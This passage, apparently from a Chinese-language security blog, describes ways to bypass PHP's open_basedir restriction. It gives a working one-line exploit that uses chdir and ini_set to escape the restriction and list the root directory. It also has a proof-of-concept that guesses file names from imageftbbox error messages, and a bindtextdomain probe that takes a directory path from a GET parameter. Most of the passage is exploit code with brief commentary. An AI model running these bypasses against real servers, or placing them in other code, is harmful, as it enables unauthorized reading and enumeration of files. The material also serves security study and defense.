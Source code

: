 EXP:

```php
mkdir('sub');chdir('sub');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir('/'));
```

一些分析： [https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/](https://skysec.top/2019/04/12/从PHP底层看open-basedir-bypass/) 好吧我实在是看不下去底层了…还是功底不够..还得练

# 0x07 GD库imageftbbox/imagefttext

看了一下其实和前面的realpath一样都是通过一些报错来进行猜解 当文件存在，则php会抛出“File(xxxxx) is not within the allowed path(s)”错误。但当文件不存在的时候会抛出“Invalid font filename”错误。

POC：

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir'));
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    //$m = imagecreatefrompng("zip.png");
    //imagefttext($m, 100, 0, 10, 20, 0xffffff, $file, 'aaa');
    imageftbbox(100, 100, $file, 'aaa');
}
function isexists($errno, $errstr)
{
    global $file;
    if (stripos($errstr, 'Invalid font filename') === FALSE) {
        printf("%s<br/>", $file);
    }
}
?>
```

# 0x08 bindtextdomain暴力执法

emm原理还是一样但是鸡肋，因为Windows下面默认没有这个函数&&linux下面是不能使用通配符进行绕过所以如果上面的方法都没有用才会考虑这些猜解的问题

```php
<?php
printf('<b>open_basedir: %s</b><br />', ini_get('open_basedir'));
$re = bindtextdomain('xxx', $_GET['dir']);
var_dump($re);
?>
```

# 0x09 参考
